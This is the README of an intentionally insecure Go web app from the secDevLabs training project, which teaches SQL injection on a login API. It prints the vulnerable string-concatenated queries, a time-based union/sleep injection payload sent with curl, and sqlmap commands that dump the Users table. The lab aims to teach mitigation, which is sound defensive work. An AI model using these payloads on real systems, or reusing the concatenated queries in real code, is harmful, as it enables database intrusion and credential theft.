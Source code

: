# CopyNPaste API

<img src="../../../images/secDevLabs-logo.png" align="" height="80" />

CopyNPaste is Golang web application that uses an API and a simple front end to simulate a login page. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enables users register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app-)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:3000][App], as exemplified bellow:

<img src="images/CopyNPaste.png" align="center"/>

## Get to know steps

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.
* Register another user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:3000/register
```
* Login as this second user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:3000/login

```

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section descrides how an attacker could identify and exploit an SQL Injection in CopyNPaste app. We encourage you follow these steps and try to reproduce the attack itself before reading any code.

#### Vulnerabilituy identification  👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. Using web interface, we send some information using form for inspect how web interface comunicates with API.

<img src="docs/attack-0.png" align="center"/>

To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 5 seconds delay will be noted after sending it:

<img src="docs/attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test again (with a 30 seconds delay):

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login
```

Request:

<img src="docs/attack-2.png" align="center"/>

30 seconds later:

<img src="docs/attack-3.png" align="center"/>

#### Vulnerability exploitation 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will come to the app:

```sh
docker logs a1_api -f
```

After that, we could now use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```

<img src="docs/attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="docs/attack-5.png" align="center"/>

## Secure this app 🔧

How could you now migitate this vulnerability? After your code modification, an attacker should not be able to:

* Execute SQL queries into database.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:3000
